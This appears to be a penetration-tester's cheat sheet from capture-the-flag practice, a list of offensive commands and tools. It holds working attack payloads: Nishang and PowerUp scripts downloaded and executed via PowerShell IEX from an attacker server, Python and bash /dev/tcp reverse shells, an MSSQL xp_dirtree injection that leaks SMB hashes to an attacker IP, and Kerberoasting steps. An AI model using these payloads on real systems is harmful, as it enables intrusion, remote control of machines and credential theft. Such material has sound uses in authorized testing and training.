 #### Tools & Techniques


 Nishang
To get a sheel from an entry point where cmd is working or the entry point is a cmd

cp /opt/nishang/Shells/Invoke-PowershellTcp.ps1 nishang.ps1
gedit nishang.ps1
Invoke-PowershellTcp -Reverse -IpAdress *.*.*.* -Port *
python -m SimpleHTTPServer
nc -lvnp *

In cmd:
powershell "IEX(New-Object Net.WebClient).downloadString('http://*.*.*.*:*/nishang.ps1')"


 Linux
To get a better shell:
python -c 'import pty;pty.spawn("/bin/bash");'
 to list suid binary file:
find / -perm -u=s -type f 2>/dev/null -exec ls -l {} \;


 Windows
 to convert in base64 with UTF-16LE encoding
echo -n "Hello World" | iconv --to-code UTF-16LE | base64 -w 0

 Tools
 Shell and Crack
Unicorn.py :  https://github.com/trustedsec/unicorn  
Empire.py  :  https://github.com/EmpireProject/Empire
JAWS       :  https://github.com/411Hall/JAWS   (Windows Enumeration Tools)
zip2john   :  https://github.com/piyushcse29/john-the-ripper/blob/master/src/zip2john.c (To crack zipped password)

 Steganography tools
zsteg,steghide,binwalk.strings,file,foremost

 Other tools
readpst,mdb-shell,mdb-sql

Reading smbshare from mssql service using xp_dirtree:
;declare @q varchar(200);set @q="\;your_ip\test";exec master.dbo.xp_dirtree @q;--

 Techniques
To download all files from ftp server:
wget -m --no-passive ftp://username:password@x.x.x.x

To login in imap server using openssl:
openssl s_client -connect chaos.htb:993
link which can help:http://blog.viggy.in/?p=9
Linux enumerarion help:  https://www.rebootuser.com/?p=1623#.V5QOe7grKUl


To find S3 bucket of the program, I used nahamsec‘s lazys3.
Command: ruby lazys3.rb site_name
https://github.com/ehsahil/recon-my-way/tree/master/lazys3 

Openssl :
openssl req -x509 -new -nodes -key abc.key -sha256 -days 1024 -out abcd.pem
openssl req -new -newkey rsa:2048 -nodes -out abc.csr -keyout abcd.key
openssl pkcs12 -export -in asdf.pem -inkey ca.key -out server.p12 

SMB part:
smbclient -L //ip   {smb shares}
smbmap -H ip   

Windows Nishang Rbash like thingy:
powershell -version 2 -command "IEX(New-Object Net.WebClient).DownloadString('http://:8000/Invoke-PowerShellTcp.ps1')"
powershell -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://10.10.x.x:port/PowerUp.ps1');Invoke-AllChecks"

Kerberoasting::
use nishang Reverse shell
use powerview to load
encode the password :  $SecPassword = ConvertTo-SecureString 'Password' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('domain\user', $SecPassword) 
Invoke-UserImpersonation -Credential $Cred
Invoke-kerberoast | fl  { default format of key is john but format can be changed in hashcat}

Python shell payload :
python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("ip",port,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");';

Reverse Shell using terminal:
 command = sudo bash -c "bash -i >& /dev/tcp/10.0.0.1/8080 0>&1"
